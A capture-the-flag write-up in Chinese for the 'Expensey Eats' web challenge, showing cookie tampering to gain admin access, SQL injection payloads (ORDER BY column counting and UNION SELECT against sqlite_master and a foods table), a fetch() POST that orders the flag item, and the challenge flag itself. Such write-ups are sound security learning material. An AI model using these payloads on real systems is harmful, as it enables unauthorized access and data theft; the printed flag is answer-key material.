



# Expensey Eats

## 題目描述

Food is expensive these days.

## 解題思路

可以先看到他的 cookies 並沒有簽章，所以我們可以直接把 admin: false 改為 true，改完以後就能進到 /admin 了

接著試了一下在 Food Items 的地方可以進行 SQL Injection，然而結果裡面並沒有 flag，於是我嘗試用 union 把 flag 列出來

先找總共有多少個欄位，我從 `' ORDER BY 1-- -` 一嘗試到 `' ORDER BY 10-- -` 才出現 internal error，於是推斷出他總共有九個欄位

接下來用 `' AND 1=0 UNION ALL SELECT 1,1,1,1,1,1,sql,1,1 FROM sqlite_master WHERE type='table'-- -` 來看到 sql 語句



找了一下我覺得 foods 裡面的 Flag Foie Fantasia 就是 flag，於是用 `' AND 1=0 UNION ALL SELECT 1,1,1,1,id,1,name,1,1 FROM foods-- -` 來得到它的 id，發現是 7



上一步其實多餘了，我後來看敘述以後，先去一號餐廳 (Truffle Tower)，之後把 flag 的數量改成 > 0，接著發 post 請求即可得到 flag

```js
fetch("https://dalctf-expensey-eats-183-64616c.instancer.dalctf2026.com/order/7", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-Hant;q=0.6,und;q=0.5",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "priority": "u=0, i",
    "sec-ch-ua": "\"Chromium\";v=\"148\", \"Vivaldi\";v=\"8.0\", \"Not/A)Brand\";v=\"99\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "https://dalctf-expensey-eats-183-64616c.instancer.dalctf2026.com/menu",
  "body": "quantity=1&delivery_note=",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```



## Flag

```text
dalctf{7h4t_w45_3xp3n5Iv3_4f}
```
